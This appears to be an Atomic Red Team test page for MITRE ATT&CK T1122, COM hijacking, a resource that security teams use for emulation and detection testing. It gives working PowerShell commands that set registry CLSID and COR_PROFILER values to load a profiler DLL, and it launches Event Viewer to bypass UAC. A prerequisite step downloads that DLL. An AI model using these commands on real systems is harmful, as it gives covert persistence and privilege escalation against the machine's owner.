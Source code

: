 # T1122 - Component Object Model Hijacking
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1122)
<blockquote>The Component Object Model (COM) is a system within Windows to enable interaction between software components through the operating system. (Citation: Microsoft Component Object Model) Adversaries can use this system to insert malicious code that can be executed in place of legitimate software through hijacking the COM references and relationships as a means for persistence. Hijacking a COM object requires a change in the Windows Registry to replace a reference to a legitimate system component which may cause that component to not work when executed. When that system component is executed through normal system operation the adversary's code will be executed instead. (Citation: GDATA COM Hijacking) An adversary is likely to hijack objects that are used frequently enough to maintain a consistent level of persistence, but are unlikely to break noticeable functionality within the system as to avoid system instability that could lead to detection.</blockquote>

## Atomic Tests

- [Atomic Test #1 - COM Hijack Leveraging .NET profiler DLL](#atomic-test-1---com-hijack-leveraging-net-profiler-dll)


<br/>

## Atomic Test #1 - COM Hijack Leveraging .NET profiler DLL
Creates environment variables and CLSID to enable a .NET profiler. The profiler DLL (`atomicNotepad.dll`) executes when the CLR is loaded by the Event Viewer process. Additionally, the profiling DLL will inherit the integrity level of Event Viewer bypassing UAC and executing `notepad.exe` with high integrity. If the account used is not a local administrator the profiler DLL will still execute each time the CLR is loaded by a process, however, the notepad process will not execute with high integrity. 

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| file_name | profiler DLL | Path | PathToAtomicsFolder&#92;T1122&#92;bin&#92;T1122x64.dll|
| clsid_guid | custom clsid guid | String | {09108e71-974c-4010-89cb-acf471ae9e2c}|


#### Attack Commands: Run with `powershell`! 


```powershell
Write-Host "Creating registry keys in HKCU:Software\Classes\CLSID\#{clsid_guid}" -ForegroundColor Cyan
New-Item -Path "HKCU:\Software\Classes\CLSID\#{clsid_guid}\InprocServer32" -Value #{file_name} -Force | Out-Null
New-ItemProperty -Path HKCU:\Environment -Name "COR_ENABLE_PROFILING" -PropertyType String -Value "1" -Force | Out-Null
New-ItemProperty -Path HKCU:\Environment -Name "COR_PROFILER" -PropertyType String -Value "#{clsid_guid}" -Force | Out-Null
New-ItemProperty -Path HKCU:\Environment -Name "COR_PROFILER_PATH" -PropertyType String -Value #{file_name} -Force | Out-Null
Write-Host "executing eventvwr.msc" -ForegroundColor Cyan
START MMC.EXE EVENTVWR.MSC
Start-Sleep 5
```

#### Cleanup Commands:
```powershell
Write-Host "Removing registry keys" -ForegroundColor Cyan
Remove-Item -Path "HKCU:\Software\Classes\CLSID\#{clsid_guid}" -Recurse -Force
Remove-ItemProperty -Path HKCU:\Environment -Name "COR_ENABLE_PROFILING" -Force | Out-Null
Remove-ItemProperty -Path HKCU:\Environment -Name "COR_PROFILER" -Force | Out-Null
Remove-ItemProperty -Path HKCU:\Environment -Name "COR_PROFILER_PATH" -Force | Out-Null
```



#### Dependencies:  Run with `powershell`!
##### Description: #{file_name} must be present
##### Check Prereq Commands:
```powershell
if (Test-Path #{file_name}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{file_name}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1122/bin/T1122x64.dll" -OutFile "#{file_name}"
```




<br/>
